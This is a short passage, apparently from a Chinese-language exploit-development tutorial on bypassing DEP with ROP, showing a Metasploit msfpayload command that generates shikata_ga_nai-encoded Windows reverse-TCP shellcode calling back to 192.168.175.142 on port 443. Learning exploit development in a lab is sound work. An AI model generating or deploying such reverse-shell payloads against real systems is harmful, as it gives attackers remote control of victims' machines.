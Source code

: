 指定IP、端口、编码器x86/shikata_ga_nai生成shellcode。

    msfpayload windows/shell_reverse_tcp LHOST="192.168.175.142" LPORT=443 EXITFUNC=thread R | msfencode -e x86/shikata_ga_nai -b '\x00'

![img](/assets/img/images/2015-11-6-defeating-DEP-with-ROP_61.png)

### 生成完整测试代码。
